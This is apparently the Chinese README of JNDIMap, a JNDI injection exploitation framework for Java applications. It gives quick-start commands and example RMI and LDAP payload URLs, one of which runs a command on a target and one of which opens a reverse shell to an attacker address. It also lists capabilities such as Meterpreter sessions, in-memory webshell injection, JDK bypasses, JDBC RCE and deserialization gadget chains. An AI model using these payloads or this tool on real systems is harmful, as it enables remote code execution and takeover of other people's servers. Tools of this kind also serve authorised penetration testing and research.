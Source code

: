 <div align="center">
    <img src="img/logo.png" width="128" />
    <h1 align="center">JNDIMap</h1>
</div>

<p align="center">
<img alt="GitHub Repo stars" src="https://img.shields.io/github/stars/X1r0z/JNDIMap">
<img alt="GitHub forks" src="https://img.shields.io/github/forks/X1r0z/JNDIMap">
<img alt="Static Badge" src="https://img.shields.io/badge/Java-8-blue">
<img alt="GitHub Downloads (all assets, all releases)" src="https://img.shields.io/github/downloads/X1r0z/JNDIMap/total">
<img alt="GitHub Release" src="https://img.shields.io/github/v/release/X1r0z/JNDIMap">
<img alt="GitHub License" src="https://img.shields.io/github/license/X1r0z/JNDIMap">

<p align="center">
JNDIMap 是一个强大的 JNDI 注入利用框架, 支持 RMI、LDAP 和 LDAPS 协议, 包含多种高版本 JDK 绕过方式
</p>
<p align="center">简体中文 | <a href="README.en.md">English</a></p>
</p>

## 🚀 快速上手

在 [Release](https://github.com/X1r0z/JNDIMap/releases) 页面下载 JNDIMap, 运行时传入 `-i` 参数指定外部 IP

```bash
java -jar JNDIMap-version.jar -i 10.0.0.1
```

在目标机器上执行命令或反弹 Shell

```bash
rmi://10.0.0.1:1099/Basic/Command/open -a Calculator
ldap://10.0.0.1:1389/Basic/ReverseShell/10.0.0.1/1337
```

## 🚩 功能特性

- DNSLog
- 命令执行
- 反弹 Shell
- Meterpreter 上线
- 加载自定义 Java 字节码
- 内存马注入 (基于 [MemShellParty](https://github.com/ReaJason/MemShellParty))
- Nashorn JS 自定义 Payload
- BeanFactory 绕过
  - Tomcat
  - Groovy
  - XStream
  - SnakeYaml
  - BeanShell
  - MVEL
  - MLet
  - NativeLibLoader
- JDBC RCE (MySQL/PostgreSQL/H2/Derby)
  - Commons DBCP
  - Tomcat DBCP
  - Tomcat JDBC
  - Alibaba Druid
  - HikariCP
- LDAP 反序列化:
  - CommonsCollections K1-K4
  - CommonsBeanutils183
  - CommonsBeanutils194
  - Jackson
  - Fastjson1
  - Fastjson2

## 📖 使用指南

> 完整文档: [USAGE.md](USAGE.md)

- [Usage](USAGE.md#usage)
- [URL 格式](USAGE.md#url-格式)
- [Basic 功能](USAGE.md#basic)
- [内存马注入](USAGE.md#内存马注入)
- [BeanFactory 绕过](USAGE.md#beanfactory-绕过)
  - [Tomcat ELProcessor](USAGE.md#tomcat-elprocessor)
  - [Groovy ClassLoader/Shell](USAGE.md#groovy-classloadershell)
  - [XStream](USAGE.md#xstream)
  - [SnakeYaml](USAGE.md#snakeyaml)
  - [BeanShell](USAGE.md#beanshell)
  - [MVEL](USAGE.md#mvel)
  - [MLet](USAGE.md#mlet)
  - [NativeLibLoader](USAGE.md#nativelibloader)
- [JDBC RCE](USAGE.md#jdbc-rce)
  - [MySQL](USAGE.md#mysql)
    - [MySQL JDBC 反序列化 RCE](USAGE.md#mysql-jdbc-反序列化-rce)
    - [MySQL 客户端任意文件读取](USAGE.md#mysql-客户端任意文件读取)
  - [PostgreSQL](USAGE.md#postgresql)
  - [H2 Database](USAGE.md#h2)
  - [Apache Derby](USAGE.md#derby)
    - [Derby SQL RCE](USAGE.md#derby-sql-rce)
    - [Derby 主从复制反序列化 RCE](USAGE.md#derby-主从复制反序列化-rce)
- [LDAP Deserialization](USAGE.md#ldap-deserialization)
- [Script](USAGE.md#script)
- [useReferenceOnly](USAGE.md#usereferenceonly)
- [fakeClassName](USAGE.md#fakeclassname)

## ⚙️ 编译

[Releases](https://github.com/X1r0z/JNDIMap/releases) 的版本可能存在滞后, 推荐在使用时拉取源码自行编译 (基于 JDK 8)

```bash
git clone https://github.com/X1r0z/JNDIMap && cd JNDIMap
mvn package -Dmaven.test.skip=true
```

## 📷 参考 & 致谢

[https://tttang.com/archive/1405/](https://tttang.com/archive/1405/)

[https://paper.seebug.org/1832/](https://paper.seebug.org/1832/)

[https://xz.aliyun.com/t/12846](https://xz.aliyun.com/t/12846)

[http://www.lvyyevd.cn/archives/derby-shu-ju-ku-ru-he-shi-xian-rce](http://www.lvyyevd.cn/archives/derby-shu-ju-ku-ru-he-shi-xian-rce)

[https://y4tacker.github.io/2023/03/20/year/2023/3/FastJson 与原生反序列化/](https://y4tacker.github.io/2023/03/20/year/2023/3/FastJson%E4%B8%8E%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/)

[https://y4tacker.github.io/2023/04/26/year/2023/4/FastJson 与原生反序列化-二/](https://y4tacker.github.io/2023/04/26/year/2023/4/FastJson%E4%B8%8E%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-%E4%BA%8C/)

[https://www.yulegeyu.com/2022/11/12/Java 安全攻防之老版本 Fastjson 的一些不出网利用/](https://www.yulegeyu.com/2022/11/12/Java%E5%AE%89%E5%85%A8%E6%94%BB%E9%98%B2%E4%B9%8B%E8%80%81%E7%89%88%E6%9C%ACFastjson-%E7%9A%84%E4%B8%80%E4%BA%9B%E4%B8%8D%E5%87%BA%E7%BD%91%E5%88%A9%E7%94%A8/)

[https://gv7.me/articles/2020/deserialization-of-serialvesionuid-conflicts-using-a-custom-classloader/](https://gv7.me/articles/2020/deserialization-of-serialvesionuid-conflicts-using-a-custom-classloader/)

[https://www.leavesongs.com/PENETRATION/use-tls-proxy-to-exploit-ldaps.html](https://www.leavesongs.com/PENETRATION/use-tls-proxy-to-exploit-ldaps.html)

[https://exp10it.io/2025/03/h2-rce-in-jre-17/](https://exp10it.io/2025/03/h2-rce-in-jre-17/)

[https://forum.butian.net/share/4414](https://forum.butian.net/share/4414)

[https://yzddmr6.com/posts/swinglazyvalue-in-webshell/](https://yzddmr6.com/posts/swinglazyvalue-in-webshell/)

## 🌟 Star History

<a href="https://www.star-history.com/#X1r0z/JNDIMap&Date">
 <picture>
   <source media="(prefers-color-scheme: dark)" srcset="https://api.star-history.com/svg?repos=X1r0z/JNDIMap&type=Date&theme=dark" />
   <source media="(prefers-color-scheme: light)" srcset="https://api.star-history.com/svg?repos=X1r0z/JNDIMap&type=Date" />
   <img alt="Star History Chart" src="https://api.star-history.com/svg?repos=X1r0z/JNDIMap&type=Date" />
 </picture>
</a>